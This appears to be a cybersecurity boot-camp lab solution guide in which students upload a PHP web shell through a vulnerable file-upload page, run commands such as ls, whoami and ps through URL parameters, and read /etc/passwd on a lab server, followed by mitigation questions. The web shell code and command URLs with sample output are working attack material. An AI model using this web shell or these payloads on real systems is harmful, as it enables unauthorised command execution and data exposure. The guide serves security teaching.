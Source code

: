 ## Solution Guide: Local File Inclusion 

In this activity, you were tasked with testing an intended purpose of an application by uploading and viewing a basic image file. You were then tasked with uploading a malicious PHP script and using the script to execute command-line scripts against the web server.

---

1. Test the intended use of the web application.

    **Uploading the Image**

    We will first see how to upload and view an image from the file upload webpage.

      - First select Browse to find the image that you want to upload.

      - By default, this should take you to the desktop of your Vagrant filesystem.

        - If it takes you to a different location, select Desktop.

      - There will be a file on your desktop called `image.jpg`.

        - Select that image.

      - Back on the file upload page, you should see the `image.jpg` filename that you selected.

        - To upload the file, select Upload.

      - You should then receive a success message that states the following:

        `../../hackable/uploads/image.jpg succesfully uploaded!`
      
    **Viewing the image**  

    - Note that the previous success message indicates where the file has been uploaded to: 
      
      - `../../hackable/uploads/image.jpg`

    - Access the image by replacing the `#` at the end of the URL, with the complete location indicated above.

      - `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/image.jpg `

      - Note that your browser will automatically update the URL to the direct location of the image:

        - `http://192.168.13.25/hackable/uploads/image.jpg`

    - You should see the image of a squirrel. 
    
      - Note that this is how the application is intended to work, by providing the user with an option to upload and view an image!

2. Test an unintended function of the application by loading a malicious PHP script.

    - Note that you just tested how the application is designed to load and view an image.

    - Let's now view a malicious PHP script that we can upload, instead of an image.

    - The malicious PHP script, called `script.php`, has been placed on your desktop.

      - To view this script, find it on your desktop and double-click on it to open:
      
                  <?php
                  $command = $_GET['cmd'];
                  echo system($command);
                  ?>

      - While understanding the exact syntax is not important for now, just note that the contents in the script are designed to run a PHP script to execute a user command.

    - Return to the file upload webpage and follow the same steps again, but this time select and upload the file `script.php`.

      - Note that this script will be uploaded to the same location as the image you previously uploaded.

3. Run command-line commands with your PHP script.

    - Let's now see if we can run command-line commands against the Replicants web server!

      - Change the URL to access the script that you just uploaded.
      
    - Modify the URL again to run the several Linux commands:

      - **Hint**: Review your class slides to see how to modify the URL to run command-line commands.

      - Run the following Linux commands and take note of the results:

        1. `ls`

        2. `whoami`
        
        3. `pwd`
        
        4. `ps`

    - **Note**: While this is a safe place to experiment with commands, DO NOT run commands that might delete or alter files that your system needs, such as `rm`, `mv`, or `rdmir`.

    - **Solution**: The commands to run these scripts are as follows.

      1. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ls`

          - Results might vary but will look like the following:

              - `image.jpg dvwa_email.png script.php script.php`

      2. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=whoami`

          - Results might look like the following:

              - `www-data www-data`

      3. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=pwd`

          - Results will look like the following:

              - `/var/www/html/hackable/uploads /var/www/html/hackable/uploads`   
                
      4. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ps`

          - Results might vary but will look like the following:

              - `PID TTY TIME CMD 305 ? 00:00:00 apache2 306 ? 00:00:00 apache2 307 ? 00:00:00 apache2 308 ? 00:00:00 apache2 309 ? 00:00:00 apache2 314 ? 00:00:00 apache2 315 ? 00:00:00 apache2 316 ? 00:00:00 apache2 317 ? 00:00:00 apache2 324 ? 00:00:00 sh 325 ? 00:00:00 ps 325 ? 00:00:00 ps`

4. **Bonus**: Run commands to explore files with your PHP script.

    - Let's now see if we can run malicious commands to explore files within the Replicants web server.

      - By modifying the URL, access the script that you just uploaded.
      
    - Modify the URL to view the `/etc/passwd` file.

      - **Hint**: You will need to encode your payload, as the URL will not accept all characters, such as spaces.

      - Use the following webpage to help design your payload: [MeyerWeb: URL Encoder/Decoder](https://meyerweb.com/eric/tools/dencoder/).

    - **Solution**

      - The command to run this script is as follows:

        `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=cat%20../../../../../etc/passwd`

      - Results will look like the following:

        `root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false`  

5. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user can take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers, as if a web application is vulnerable to local file injection, a variety of malicious payloads can be exploited. Impacts could include the following:
          
          - Display of confidential data such as user accounts, password hashes, service accounts, or network information.
          
          - Deletion or modification of the preceding confidential data, which can lead to system outages.

    - Describe in plain language how you might mitigate the vulnerabilities that you just exploited.

      - There are many acceptable answers, all involving input validation. Options might include server-side validation, to only allow certain file types to be uploaded.

---

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
